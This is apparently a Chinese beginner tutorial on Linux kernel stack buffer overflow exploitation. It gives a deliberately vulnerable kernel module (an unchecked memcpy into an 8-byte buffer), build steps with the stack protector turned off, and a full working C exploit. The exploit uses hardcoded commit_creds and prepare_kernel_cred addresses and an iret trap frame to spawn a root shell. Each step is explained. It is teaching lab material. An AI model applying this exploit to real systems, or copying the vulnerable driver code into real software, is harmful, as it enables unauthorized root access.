

# 新手玩转Linux Kernel漏洞之Kernel_Stack_Buffer_Overflow

### 序言
> &nbsp;&nbsp;&nbsp;&nbsp;这是`Linux`内核漏洞入门的第二篇, 由于其他大佬已经将整个提权流程将的很清楚, 此处不再赘述, 本文说一些其他大佬没讲到的地方--`exp`的解读．

### 驱动代码
*提醒*: 关闭内核`canary`的保护, 将`.config`的`CONFIG_CC_STACKPROTECTOR=y`改为`CONFIG_CC_STACKPROTECTOR=n`,重新编译.
```c
/*
 * stack_smashing.c
 */
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

int bug2_write(struct file *file,const char *buf,unsigned long len)
{
	char localbuf[8];
	memcpy(localbuf,buf,len); //vulnerability
	return len;
}

static int __init stack_smashing_init(void)
{
	printk(KERN_ALERT "stack_smashing driver init!\n");
	create_proc_entry("bug2",0666,0)->write_proc = bug2_write;
	return 0;
}

static void __exit stack_smashing_exit(void)
{
	printk(KERN_ALERT "stack_smashing driver exit!\n");
}

module_init(stack_smashing_init);
module_exit(stack_smashing_exit);
```
*Makefile*
```bash
obj-m := stack_smashing.o  
KERNELDR := ~/linux_kernel/linux-2.6.32.1  #内核代码根目录
PWD := $(shell pwd)  
modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
moduels_install:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules_install  
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```
### EXP
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame {
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));

struct trap_frame tf;

void get_shell(void)
{
    execl("/bin/sh", "sh", NULL);
}

void init_tf_work(void)
{
    asm("pushl %cs; popl tf+4;" // set cs
        "pushfl; popl tf+8;" // set eflags
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &get_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xc1057120;
void *(*commit_creds)(void *) KERNCALL = (void *) 0xc1056f80;

void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf, %esp;"
        "iret;");
}

int main(void)
{
    char buf[24];
    memset(buf, 'A', 24);
    *((void **)(buf+20)) = &payload; // set eip to payload
    init_tf_work();
    int fd = open("/proc/bug2", O_WRONLY);
    // exploit
    write(fd, buf, sizeof(buf));
    return 0;
}
```
### 解读
*0.知识准备*
> 看懂这篇`exp`之前, 需要一些知识储备. 请前往[指针解疑](https://blog.csdn.net/qq_33528164/article/details/80470620)学习

*1. main*
```c
 *((void **)(buf+20)) = &payload; // 劫持eip
  init_tf_work();                 // 初始一个iret返回的内容组
  /*
   * tf = eip = get_shell
   * tf + 0x4 = cs
   * tf + 0x8 = eflag
   * tf + 0xc = esp
   * tf + 0x10 = ss
   * tf.esp -= unused part of stack
   */
```
*2. iret*
> &nbsp;&nbsp;&nbsp;&nbsp;当使用IRET指令返回到相同保护级别的任务时，IRET会从堆栈弹出代码段选择子及指令指针分别到CS与IP寄存器，并弹出标志寄存器内容到EFLAGS寄存器.
> &nbsp;&nbsp;&nbsp;&nbsp;当使用IRET指令返回到一个不同的保护级别时，IRET不仅会从堆栈弹出以上内容，还会弹出堆栈段选择子及堆栈指针分别到SS与SP寄存器.

*3. 执行`payload`函数*
```c
void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    /*
     *prepare_kernel_cred(0)--> 模拟内核传递参数方式, 使用寄存器传递.
     *commit_creds 同上,
     */
    asm("mov $tf, %esp;"
        "iret;");
    /*
     * 将构造好的内容赋值给esp
     * iret -> 触发漏洞, eip = get_shell
     */
}
```
*4. get root*
> 总体思路: 将进程提权为`root`进程, 获取一个`root shell`


### 相关链接
[bestwing](http://bestwing.me/2017/04/10/write-kernel-exploits-2/)
[BruceFan](http://pwn4.fun/2017/04/20/Linux%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E4%B8%89%EF%BC%89Kernel-Stack-Buffer-Overflow/)
[文件下载]()
[外文的PDF]()
